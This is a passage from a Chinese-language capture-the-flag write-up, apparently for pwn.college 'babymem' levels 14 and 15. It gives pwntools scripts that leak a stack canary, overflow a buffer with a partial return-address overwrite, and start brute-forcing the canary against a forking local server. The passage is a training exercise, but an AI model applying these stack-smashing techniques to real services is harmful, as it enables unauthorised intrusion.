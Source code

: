 ```python
p.sendline(f"{buffer_size}")
p.send(b'A'*0x1A8 + cancary_value + 8* b'A' +  b'\x7D\x19')

p.interactive()
exit()


from pwn import *
elf = ELF("/challenge/babymem_level14.0")
p = process("/challenge/babymem_level14.0")
buffer_size = 0x9
p.sendline(f"{buffer_size}")
p.send(b'REPEAT' + b'A'*3)
output = p.recvuntil(b'Backdoor triggered! Repeating challenge()')
match = re.search(r'^(You said: REPEATAAA+.*?)$', output.decode('latin-1'), re.MULTILINE)
if match:
    line = match.group(1)
    line = line[19:26]
    cancary =  line.encode('latin-1')
    hex_str = ''.join(f'{byte:02x}' for byte in cancary[::-1]) + "00"
    cancary_value = p64(int(hex_str, 16))
    print(f"Test! {cancary_value}")
else:
    print("No matching line found")

buffer_size = 0x118 + 8 + 8 + 2
p.sendline(f"{buffer_size}")
p.send(b'A'*0x118 + cancary_value + 8* b'A' +  b'\x98\x23')

p.interactive()
```


## level 15

这一关就是爆破了。之前的程序都是独立程序，接受输入，然后输出。这一关的程序变成了服务端和客户端的交互，服务端监听1337端口，客户端向服务端发送数据，服务端使用fork启动新进程处理客户端的连接。这意味着你可以请求连接，然后重复发送数据达到爆破的效果。

```python

from pwn import *



def burce_canary_value():
    cancary_value = b''
    i = 1
    while i < 8:
        # 连接到本地进程
        for j in range(1, 256):
                
            conn = remote('127.0.0.1', target_port)

            # 打印连接成功的消息
            print(f"Connected to local process on port {target_port}")
            response = conn.recvuntil("Payload size:")
            # print(f"Received response: {response.decode()}")

            buffer_size_ = buffer_size + extra_byte + i
            if cancary_value != b'':
                base_payload = (buffer_size_ - 1 - i) * b'A' + b'\x00' + cancary_value + bytes([j])
            else:
                base_payload = (buffer_size_ - 1 - i) * b'A' + b'\x00'  + bytes([j])

```